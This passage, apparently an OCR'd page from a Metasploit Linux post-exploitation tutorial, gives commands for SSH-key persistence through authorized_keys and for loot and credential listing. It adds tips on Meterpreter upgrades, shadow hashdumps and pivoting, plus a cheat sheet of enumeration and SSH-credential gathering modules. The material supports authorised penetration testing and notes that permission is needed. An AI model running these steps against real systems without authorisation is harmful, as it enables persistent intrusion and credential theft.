 7) Persistence (basic SSH key persistence where appropriate/authorized)
- If your user has write access to a home directory, add your public key to authorized_keys:
```
sessions -i SESSION_ID
shell
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ..." >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
exit
```
- If a Metasploit module exists in your version (verify with `search`), consider:
```
search type:post platform:linux manage persistence
```
Careful: Only perform persistence with permission.

8) Loot and creds management in Metasploit
```
loot
creds
```
Loot files are typically stored under ~/.msf4/loot (path shown by `loot` output).

9) Optional: Spool output for good notes
```
spool /tmp/msf_linux_postexp.log
...run modules...
spool off
```

## Practical tips
- Prefer Meterpreter: Most post modules require a Meterpreter session. Upgrade shells with `post/multi/manage/shell_to_meterpreter`.
- Always set SESSION: Almost all post modules need `set SESSION <id>`.
- Verify module availability: Names can change across versions. Use `search` and `info` to confirm exact module names and options.
- Least noise first: Run read-only gather modules before attempting privesc or persistence.
- Check protections: `enum_protections` helps you pick appropriate local exploits (kernel, ASLR, SELinux/AppArmor).
- Don’t forget user land: `.ssh`, `.bash_history`, config files, backups, and web app directories often yield credentials.
- Root or GTFO for shadow: `hashdump`/shadow access usually needs root. If you can’t read shadow, pivot to other creds sources.
- Pivot early: If you see additional subnets/interfaces, set routes and a SOCKS proxy early to keep momentum.
- Document and clean up: Track every change (persistence, routes, files). Remove test users/keys/services when done.

## Minimal cheat sheet (one-screen flow)
```
# Pick/upgrade session
sessions -l
use post/multi/manage/shell_to_meterpreter; set SESSION 1; run

# Core gather
use post/linux/gather/enum_system; set SESSION 1; run
use post/linux/gather/enum_network; set SESSION 1; run
use post/linux/gather/enum_protections; set SESSION 1; run
use post/linux/gather/enum_services; set SESSION 1; run
use post/linux/gather/checkvm; set SESSION 1; run

# Creds
use post/multi/gather/ssh_creds; set SESSION 1; run
use post/multi/gather/ssh_configs; set SESSION 1; run
```